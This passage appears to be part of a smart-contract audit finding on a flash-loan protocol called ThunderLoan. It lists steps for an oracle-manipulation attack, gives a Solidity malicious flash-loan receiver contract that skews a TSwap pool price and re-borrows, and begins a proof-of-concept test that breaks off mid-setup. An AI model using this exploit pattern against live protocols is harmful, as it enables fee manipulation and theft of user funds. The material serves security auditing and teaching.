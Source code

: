 The exploitation process might be:

*   Deploy a `TSwap` and fund it
    
*   Borrow tokens via `flashloan`
    
*   Swap borrowed `tokenA` to `weth` on `TSwap`
    
*   Borrow again to see the changed fee due to manipulated price
    

Example malicious receiver contract:


```javascript
contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    address repayAddress;
    BuffMockTSwap tswapPool;
    bool attack;
    uint256 public feeOne;
    uint256 public feeTwo;

    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
        tswapPool = BuffMockTSwap(_tswapPool);
    }

    function executeOperation(address token, uint256 amount, uint256 fee, address initiator, bytes calldata params) external returns (bool) {
        if (!attack) {
            // Swap borrowed TokenA to WETH, then request another FlashLoan to demonstrate fee difference
            feeOne = fee;
            attack = true;
            uint256 wethBrought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
            IERC20(token).approve(address(tswapPool), 50e18);
            tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBrought, block.timestamp);
            thunderLoan.flashloan(address(this), IERC20(token), amount, "");
            IERC20(token).transfer(address(repayAddress), amount + fee);
        } else {
            // Calculate fee and repay
            feeTwo = fee;
            IERC20(token).transfer(address(repayAddress), amount + fee);
        }
        return true;
    }
}
```


Test demonstrating oracle manipulation:


```javascript
    function testOracleManipulation() public {
        thunderLoan = new ThunderLoan();
        tokenA = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");
        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));

        // Create WETH/TokenA pool using TSwap
        address tswapPool = pf.createPool(address(tokenA));
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(pf));

        // Fund TSwap
        vm.startPrank(liquidityProvider);
```